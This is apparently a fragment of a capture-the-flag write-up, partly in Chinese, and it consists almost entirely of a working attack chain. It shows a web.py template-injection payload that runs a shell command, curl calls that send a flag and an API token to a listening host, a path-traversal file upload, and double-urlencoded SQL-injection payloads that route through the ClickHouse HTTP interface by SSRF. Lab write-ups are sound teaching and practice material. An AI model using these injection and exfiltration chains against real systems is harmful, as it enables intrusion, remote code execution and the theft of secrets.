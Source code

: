 https://webpy.org/docs/0.3/templetor.zh-cn

```HTML
$code:
    __import__('os').system('curl http://host.docker.internal:5555/?flag=`/readflag | base64`')
```

SQL 语句

```SQL
-- get token
SELECT * FROM url('http://host.docker.internal:4444/?a='||hex((select * FROM url('http://backend:8001/api/token', 'TabSeparatedRaw', 'x String'))), 'TabSeparatedRaw', 'x String');
-- ssti to rce
INSERT INTO FUNCTION url('http://backend:8001/api/upload', 'TabSeparatedRaw', 'x String', headers('Content-Type'='multipart/form-data; boundary=----test', 'X-Access-Token'='06a181b5474d020c2237cea4335ee6fd')) VALUES ('------test\r\nContent-Disposition: form-data; name="myfile"; filename="../templates/test.html"\r\nContent-Type: text/plain\r\n\r\n$code:\r\n    __import__(\'os\').system(\'curl http://host.docker.internal:5555/?flag=`/readflag | base64`\')\r\n------test--');
```

然后通过 SSRF HTTP Interface 执行 insert 语句, 注意 urlencode

```SQL
-- get token
id=1 AND (SELECT * FROM url('http://default:default@db:8123/?query=%2553%2545%254c%2545%2543%2554%2520%252a%2520%2546%2552%254f%254d%2520%2575%2572%256c%2528%2527%2568%2574%2574%2570%253a%252f%252f%2568%256f%2573%2574%252e%2564%256f%2563%256b%2565%2572%252e%2569%256e%2574%2565%2572%256e%2561%256c%253a%2534%2534%2534%2534%252f%253f%2561%253d%2527%257c%257c%2568%2565%2578%2528%2528%2573%2565%256c%2565%2563%2574%2520%252a%2520%2546%2552%254f%254d%2520%2575%2572%256c%2528%2527%2568%2574%2574%2570%253a%252f%252f%2562%2561%2563%256b%2565%256e%2564%253a%2538%2530%2530%2531%252f%2561%2570%2569%252f%2574%256f%256b%2565%256e%2527%252c%2520%2527%2554%2561%2562%2553%2565%2570%2561%2572%2561%2574%2565%2564%2552%2561%2577%2527%252c%2520%2527%2578%2520%2553%2574%2572%2569%256e%2567%2527%2529%2529%2529%252c%2520%2527%2554%2561%2562%2553%2565%2570%2561%2572%2561%2574%2565%2564%2552%2561%2577%2527%252c%2520%2527%2578%2520%2553%2574%2572%2569%256e%2567%2527%2529%253b', 'TabSeparatedRaw', 'x String'))
-- ssti to rce
id=1 AND (SELECT * FROM url('http://default:default@db:8123/?query=%2549%254e%2553%2545%2552%2554%2520%2549%254e%2554%254f%2520%2546%2555%254e%2543%2554%2549%254f%254e%2520%2575%2572%256c%2528%2527%2568%2574%2574%2570%253a%252f%252f%2562%2561%2563%256b%2565%256e%2564%253a%2538%2530%2530%2531%252f%2561%2570%2569%252f%2575%2570%256c%256f%2561%2564%2527%252c%2520%2527%2554%2561%2562%2553%2565%2570%2561%2572%2561%2574%2565%2564%2552%2561%2577%2527%252c%2520%2527%2578%2520%2553%2574%2572%2569%256e%2567%2527%252c%2520%2568%2565%2561%2564%2565%2572%2573%2528%2527%2543%256f%256e%2574%2565%256e%2574%252d%2554%2579%2570%2565%2527%253d%2527%256d%2575%256c%2574%2569%2570%2561%2572%2574%252f%2566%256f%2572%256d%252d%2564%2561%2574%2561%253b%2520%2562%256f%2575%256e%2564%2561%2572%2579%253d%252d%252d%252d%252d%2574%2565%2573%2574%2527%252c%2520%2527%2558%252d%2541%2563%2563%2565%2573%2573%252d%2554%256f%256b%2565%256e%2527%253d%2527%2530%2536%2561%2531%2538%2531%2562%2535%2534%2537%2534%2564%2530%2532%2530%2563%2532%2532%2533%2537%2563%2565%2561%2534%2533%2533%2535%2565%2565%2536%2566%2564%2527%2529%2529%2520%2556%2541%254c%2555%2545%2553%2520%2528%2527%252d%252d%252d%252d%252d%252d%2574%2565%2573%2574%255c%2572%255c%256e%2543%256f%256e%2574%2565%256e%2574%252d%2544%2569%2573%2570%256f%2573%2569%2574%2569%256f%256e%253a%2520%2566%256f%2572%256d%252d%2564%2561%2574%2561%253b%2520%256e%2561%256d%2565%253d%2522%256d%2579%2566%2569%256c%2565%2522%253b%2520%2566%2569%256c%2565%256e%2561%256d%2565%253d%2522%252e%252e%252f%2574%2565%256d%2570%256c%2561%2574%2565%2573%252f%2574%2565%2573%2574%252e%2568%2574%256d%256c%2522%255c%2572%255c%256e%2543%256f%256e%2574%2565%256e%2574%252d%2554%2579%2570%2565%253a%2520%2574%2565%2578%2574%252f%2570%256c%2561%2569%256e%255c%2572%255c%256e%255c%2572%255c%256e%2524%2563%256f%2564%2565%253a%255c%2572%255c%256e%2520%2520%2520%2520%255f%255f%2569%256d%2570%256f%2572%2574%255f%255f%2528%255c%2527%256f%2573%255c%2527%2529%252e%2573%2579%2573%2574%2565%256d%2528%255c%2527%2563%2575%2572%256c%2520%2568%2574%2574%2570%253a%252f%252f%2568%256f%2573%2574%252e%2564%256f%2563%256b%2565%2572%252e%2569%256e%2574%2565%2572%256e%2561%256c%253a%2535%2535%2535%2535%252f%253f%2566%256c%2561%2567%253d%2560%252f%2572%2565%2561%2564%2566%256c%2561%2567%2520%257c%2520%2562%2561%2573%2565%2536%2534%2560%255c%2527%2529%255c%2572%255c%256e%252d%252d%252d%252d%252d%252d%2574%2565%2573%2574%252d%252d%2527%2529%253b', 'TabSeparatedRaw', 'x String'))
```
